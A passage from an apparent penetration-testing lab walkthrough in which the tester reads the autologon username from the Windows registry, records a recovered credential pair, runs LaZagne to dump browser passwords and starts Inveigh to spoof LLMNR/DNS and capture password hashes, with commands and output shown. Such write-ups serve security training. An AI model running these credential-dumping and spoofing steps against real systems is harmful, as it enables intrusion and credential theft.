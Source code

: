 We find a set password but no associated username. This appears to be for an account configured with autologon, so we can query the Registry to find the username.

```powershell
PS C:\Users\ilfserveradm> Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\' -Name "DefaultUserName"

DefaultUserName : mssqladm
PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows
                  NT\CurrentVersion\Winlogon\
PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
PSChildName     : Winlogon
PSDrive         : HKLM
PSProvider      : Microsoft.PowerShell.Core\Registry
```

Now we have a new credential pair: `mssqladm:DBAilfreight1!`.

Before we move on, let's check for any other credentials. We see Firefox installed, so we can grab the [LaZagne tool](https://github.com/AlessandroZ/LaZagne) to try to dump any credentials saved in the browser. No luck, but always worth a check.

```cmd-session
c:\Users\ilfserveradm\Documents> lazagne.exe browsers -firefox

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 6f898230-c272-4f85-875c-9f7b354ce485
[+] System masterkey decrypted for 9ccbb5e8-66c9-4210-a46c-a72e8f750734
[+] System masterkey decrypted for 08ed962e-44d9-4e2c-9985-392b699c25ae
[+] System masterkey decrypted for d4bfcc8b-5eec-485d-8adb-9ed4ae5656d6

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 3.29700016975
```

It's also worth running [Inveigh](https://github.com/Kevin-Robertson/Inveigh) once we have local admin on a host to see if we can obtain password hashes for any users.

```powershell
PS C:\Users\ilfserveradm\Documents> Import-Module .\Inveigh.ps1
PS C:\Users\ilfserveradm\Documents> Invoke-Inveigh -ConsoleOutput Y -FileOutput Y

[*] Inveigh 1.506 started at 2022-06-22T15:03:32
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 172.16.8.50
[+] Spoofer IP Address = 172.16.8.50
[+] ADIDNS Spoofer = Disabled
[+] DNS Spoofer = Enabled
[+] DNS TTL = 30 Seconds
[+] LLMNR Spoofer = Enabled
[+] LLMNR TTL = 30 Seconds
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] SMB Capture = Enabled
[+] HTTP Capture = Enabled
[+] HTTPS Capture = Disabled
[+] HTTP/HTTPS Authentication = NTLM
```